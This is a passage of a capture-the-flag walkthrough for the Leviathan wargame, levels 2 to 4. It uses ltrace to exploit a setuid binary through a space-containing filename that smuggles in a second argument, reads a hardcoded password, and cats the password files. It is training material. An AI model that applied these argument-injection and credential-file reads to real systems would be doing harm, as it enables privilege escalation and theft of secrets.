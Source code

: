 ```
)               = 27
+++ exited (status 1) +++
```
Nope, still doesn't work. So, the ```access``` syscall is our gatekeeper here. What if we give it a filename with spaces in it?
```
leviathan2@leviathan:~$ touch /tmp/hello\ hi
leviathan2@leviathan:~$ ltrace ./printfile /tmp/hello\ hi
__libc_start_main(0x804852b, 2, 0xffffd694, 0x8048610 <unfinished ...>
access("/tmp/hello hi", 4)                       = 0
snprintf("/bin/cat /tmp/hello hi", 511, "/bin/cat %s", "/tmp/hello hi") = 22
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat /tmp/hello hi"/bin/cat: /tmp/hello: No such file or directory
/bin/cat: hi: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```
Well, would you look at that! We just bypassed ```access``` and ```system``` just tries to ```cat``` ```hi``` as if it's a different file! Let's solve that missing file problem and get our flag:
```
leviathan2@leviathan:$ cd /etc/leviathan_pass/
leviathan2@leviathan:/etc/leviathan_pass$ touch /tmp/hi
leviathan2@leviathan:/tmp$ touch /tmp/hi\ leviathan3
leviathan2@leviathan:/etc/leviathan_pass$ ~/printfile /tmp/hi\ leviathan3
```

### Level 3 -> 4
Another challenge, another binary! Let's check it out!
```
leviathan3@leviathan:~$ ls -la
total 32
drwxr-xr-x  2 root       root        4096 Aug 26  2019 .
drwxr-xr-x 10 root       root        4096 Aug 26  2019 ..
-rw-r--r--  1 root       root         220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root        3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan4 leviathan3 10288 Aug 26  2019 level3
-rw-r--r--  1 root       root         675 May 15  2017 .profile
leviathan3@leviathan:~$ ./level3 
Enter the password> idk
bzzzzzzzzap. WRONG
leviathan3@leviathan:~$ ltrace ./level3 
__libc_start_main(0x8048618, 1, 0xffffd6a4, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                       = -1
printf("Enter the password> ")                   = 20
fgets(Enter the password> idk
"idk\n", 256, 0xf7fc55a0)                  = 0xffffd4b0
strcmp("idk\n", "snlprintf\n")                   = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                       = 19
+++ exited (status 0) +++
``` 
This seems to be simple! It just compares our input to ```snlprintf```! Let's get the flag!
```
leviathan3@leviathan:~$ ./level3 
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
```

